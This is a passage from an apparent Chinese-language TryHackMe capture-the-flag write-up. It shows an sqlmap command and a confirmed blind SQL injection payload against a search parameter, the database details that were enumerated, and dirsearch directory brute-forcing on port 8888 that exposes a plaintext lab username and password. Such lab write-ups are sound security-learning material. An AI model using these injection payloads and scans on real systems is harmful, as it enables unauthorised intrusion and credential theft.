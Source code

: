 Referer: http://10.10.243.173:82/search
Upgrade-Insecure-Requests: 1

q=a

```

sqlmap测试证实存在sql注入，payload为：
sqlmap -r data2 --level=5 --risk=3  --dbms=mysql 

```
  Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=1%' AND 3240=3240 AND 'UEDj%'='UEDj
```

枚举到的信息有：
>数据库：hillpics
>表：hill
>当前用户：'hill'@'localhost'
>密码：无法获取
>当前用户角色和权限： USAGE （最低权限）
>os-shell:无法获取
其余没有什么有用的信息


## 8888端口
爆破目录
```
┌──(root💀kali)-[~/tryhackme/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://10.10.243.173:8888

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak
HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/tryhackme/dirsearch/reports/10.10.243.173-8888/_21-10-28_09-36-47.txt

Error Log: /root/tryhackme/dirsearch/logs/errors-21-10-28_09-36-47.log

Target: http://10.10.243.173:8888/

[09:36:47] Starting: 
[09:38:05] 200 -  135B  - /apps                                             
[09:39:19] 200 -   45B  - /users                                            
                                                                             
Task Completed
```
/apps打印:
```
{"app1": {"name": "online file storage"}, "app2": {"name": "media player"}, "app3": {"name": "file sync"}, "app4": {"name": "/users"}}

```


/users打印：
```
{"user": {"davelarkin": "totallysecurehuh"}}
